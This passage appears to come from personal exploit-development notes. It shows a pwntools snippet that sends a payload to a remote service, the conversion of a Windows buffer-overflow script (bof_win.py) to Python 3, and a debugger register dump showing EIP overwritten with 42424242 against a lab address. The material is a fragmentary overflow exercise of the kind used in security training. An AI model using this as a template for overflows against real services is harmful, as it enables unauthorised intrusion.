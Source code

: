 ```python
r = remote(ip, port)
r.recvuntil(':')
r.sendline("Admin")
r.recvuntil(':')
r.sendline(payload)
```

	python3 bof_win.py 10.10.0.2 3333 // doesn't work

Convert Python 2 script:

	2to3-2.7 bof_win.py -w

```
RefactoringTool: Skipping optional fixer: buffer
RefactoringTool: Skipping optional fixer: idioms
RefactoringTool: Skipping optional fixer: set_literal
RefactoringTool: Skipping optional fixer: ws_comma
RefactoringTool: Refactored bof_win.py
--- bof_win.py  (original)
+++ bof_win.py  (refactored)
@@ -2,7 +2,7 @@
 import sys
 
 if len(sys.argv) < 3:
-    print "Usage: {} ip port".format(sys.argv[0])
+    print("Usage: {} ip port".format(sys.argv[0]))
     sys.exit()
 
 ip = sys.argv[1]
RefactoringTool: Files that were modified:
RefactoringTool: bof_win.py
```

	python3 bof_win.py 10.10.0.2 3333	// success

```
EAX 00000010
ECX 00000002
EDX 0019F918
EBX 00312000
ESP 0019FD54 ASCII "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
EBP 41414141
ESI 00464C28 ASCII "0LF"
EDI 00464CA0
EIP 42424242
```

### Create binary executables

```
Windows:	py2exe, PyInstaller, Nuitka
Linux		Freeze, PyInstaller
Mac:		py2app
```

